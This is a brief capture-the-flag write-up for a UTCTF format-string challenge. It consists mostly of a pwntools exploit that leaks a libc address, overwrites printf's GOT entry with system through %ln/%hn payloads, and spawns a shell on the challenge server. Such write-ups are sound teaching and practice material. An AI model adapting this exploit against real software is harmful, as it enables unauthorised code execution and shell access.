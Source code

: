 Format string x64. 17th value on stack is _libc_start_main+235. 
Write to stack address of printf@got.plt then write system address, input '/bin/sh' to stdin.


```python
from pwn import *

#p = process('./pwnable')
p = remote('binary.utctf.live', 9003)

printf_got = 0x601020
libc_start_offset = 0x20740
system_offset = 0x45390

p.recv()
p.sendline('%17$p')
libc_start235 = int(p.recvuntil(' '), 16)
p.recv()

libc = libc_start235 - 235 - libc_start_offset
system = libc + system_offset
system_byte1 = system & 0xff
system_byte23 = (system >> 8) & 0xffff

ex = '%6295584c%25$ln%1c%19$ln'
p.sendline(ex)
p.recv()

ex = '%' + str(system_byte1) + 'c%44$hhn%' + str(system_byte23 - system_byte1) + 'c%45$hn'
p.sendline(ex)
p.recv()

p.sendline('/bin/sh')


p.interactive()
```

